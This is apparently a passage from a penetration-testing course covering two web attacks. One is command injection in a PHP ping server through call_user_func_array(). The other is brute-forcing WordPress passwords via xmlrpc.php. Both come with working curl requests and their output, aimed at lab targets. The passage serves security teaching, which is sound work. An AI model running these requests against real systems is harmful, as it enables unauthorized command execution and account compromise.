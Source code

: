 - If the request method is GET, an existing function can be called with the help of [call\_user\_func\_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call\_user\_func\_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell
curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php

```


# Attacking WordPress 'xmlrpc.php'

* * *

It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Let us borrow an example from our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module.

Suppose we are assessing the security of a WordPress instance residing in _http://blog.inlanefreight.com_. Through enumeration activities, we identified a valid username, `admin`, and that `xmlrpc.php` is enabled. Identifying if `xmlrpc.php` is enabled is as easy as requesting `xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through `xmlrpc.php`, as follows.

```shell
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

```
